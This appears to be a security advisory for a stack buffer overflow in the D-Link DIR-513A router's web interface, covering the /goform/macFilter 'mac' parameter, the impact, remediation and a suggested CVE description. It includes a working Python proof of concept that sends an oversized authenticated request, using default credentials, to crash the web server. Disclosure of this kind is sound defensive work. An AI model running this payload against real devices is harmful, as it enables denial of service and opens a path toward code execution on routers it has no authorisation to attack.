



### 1. Vulnerability Summary

* **Vulnerability Type:** Stack-based Buffer Overflow (CWE-121)
* **Affected Component:** Router Web Management Interface (based on GoAhead Web Server)
* **Affected Endpoint:** `/goform/macFilter` (or related endpoint bound to the `sub_42DA6C` function)
* **Vulnerable Parameter:** `mac` (Triggered when `addFilterMac` is non-empty)
* **Prerequisite:** Authentication Required (Post-Auth)
* **Affected Product & Firmware Version:** D-Link DIR-513A (Hardware Rev: A1, Firmware Version: FW1.10.00TW   bin:DIR513AA1_FW1.10.00TW_20141029.bin)

### 2. Detailed Vulnerability Description

In the backend handler function `sub_42DA6C` responsible for processing MAC Address Filter settings, the program fails to validate the length of user-submitted HTTP parameters. This oversight results in a classic Stack-based Buffer Overflow when the input is passed to the underlying `AccessPolicydata` function.



The vulnerability trigger chain is as follows:

**Step 1: Data Extraction & Branch Trigger**

The program retrieves multiple user-controlled parameters using the `websGetVar` function. If the `addFilterMac` parameter is non-empty, the program extracts the `mac` parameter and passes it directly to the `AccessPolicydata` function as the second argument (`v8` / `param_2`).

**Step 2: Fixed-Size Stack Buffer Allocation**

Inside the `AccessPolicydata` function, a local character array `local_230` is allocated on the stack with a fixed capacity of 544 bytes.

**Step 3: Dangerous Memory Copy (Taint Sink)**

The program attempts to append or copy the user-controlled `mac` parameter (`param_2`) into the `local_230` stack buffer. It uses unsafe functions (`strcpy` and `sprintf`) without checking if the length of the user input exceeds the 544-byte capacity of the destination buffer.

When an attacker submits a `mac` string longer than 544 bytes, the `strcpy` or `sprintf` function performs an out-of-bounds write. The excess data overflows the stack space, ultimately overwriting the saved Return Address (`$ra`) on the call stack.

### 3. Impact Analysis

* **Denial of Service (DoS):** Overwriting the stack with a long string will cause the GoAhead Web Server process to crash (Segmentation Fault) when the function attempts to return, disconnecting the user and dropping the service.
* **Remote Code Execution (RCE):** By precisely calculating the stack offset and constructing a malicious Return-Oriented Programming (ROP) chain within the overflow payload, an authenticated attacker can hijack the control flow to execute arbitrary system commands with the privileges of the web server (typically `root`).

### 4. Proof of Concept (PoC)

The following Python script verifies the buffer overflow vulnerability. By sending a 600-byte payload in the `mac` parameter (exceeding the 544-byte buffer), the script causes the web server process to crash, resulting in a connection reset or timeout.

**Python**

```
import requests
import time

# 1. Target router IP address
router_ip = "192.168.0.1" 

# Target endpoint bound to sub_42DA6C (e.g., MAC Filter setup)
url = f"http://{router_ip}/goform/macFilter" 

# 2. Construct request headers (Requires valid authentication)
headers = {
    "User-Agent": "Mozilla/5.0",
    "Content-Type": "application/x-www-form-urlencoded",
    "Authorization": "Basic YWRtaW46YWRtaW4="  # Base64 for admin:admin
}

# 3. Construct the malicious Payload
# 'addFilterMac' must be non-empty to trigger the vulnerable code branch.
# 'mac' is the vulnerable parameter. 600 bytes will safely exceed the 544-byte stack buffer.
malicious_mac = "A" * 600 

payload = {
    "addFilterMac": "1",          # Triggers the vulnerable branch
    "mac": malicious_mac,         # The oversized payload
    "policy_name": "0",
    "submit-url": "/mac_filter.asp"
}

print(f"[*] Preparing to send Stack Buffer Overflow payload...")
print(f"[*] Target URL: {url}")
print(f"[*] Injected 'mac' payload length: {len(malicious_mac)} bytes")

try:
    start_time = time.time()
  
    # Send POST request. A short timeout is used because a successful overflow 
    # will crash the process, causing the connection to hang or drop immediately.
    response = requests.post(url, data=payload, headers=headers, timeout=5)
  
    print(f"[-] Request completed. HTTP Status Code: {response.status_code}")
    print("[-] The target service did not crash. Check if the endpoint URL is correct.")

except requests.exceptions.ReadTimeout:
    print("\n[+] Trigger Successful! (ReadTimeout)")
    print("[+] The server is unresponsive. The GoAhead process was flooded with the overflow data and crashed!")
except requests.exceptions.ConnectionError:
    print("\n[+] Trigger Successful! (ConnectionError)")
    print("[+] The remote server forcefully terminated the connection. The GoAhead process died from a Segmentation Fault!")
except Exception as e:
    print(f"\n[!] An unexpected exception occurred: {e}")
```

### 5. Remediation Recommendations

1. **Implement Length Restrictions:** Enforce strict length limits on the `mac` parameter at the data extraction phase. A standard MAC address string (e.g., `XX:XX:XX:XX:XX:XX`) should not exceed 17 characters.
2. **Use Safe String Functions:** Deprecate the use of `strcpy` and `sprintf`. Replace them with bounds-checking alternatives like `strncpy` and `snprintf`, explicitly limiting the number of bytes written to the capacity of the destination buffer (`sizeof(local_230) - 1`).

### 6. Suggested CVE Description

> A Stack-based Buffer Overflow vulnerability in the GoAhead Web Server of the D-Link DIR-513A router (Hardware Revision A1, Firmware Version FW1.10.00TW) allows authenticated remote attackers to cause a Denial of Service (DoS) or execute arbitrary code. The vulnerability exists in the `/goform/macFilter` endpoint (handled by the `sub_42DA6C` function), where the `mac` HTTP parameter is passed to the `AccessPolicydata` function and copied into a fixed-size 544-byte stack buffer using unsafe string functions (`strcpy` and `sprintf`) without adequate length validation.


### 7.Overcome (Verification Screenshots)




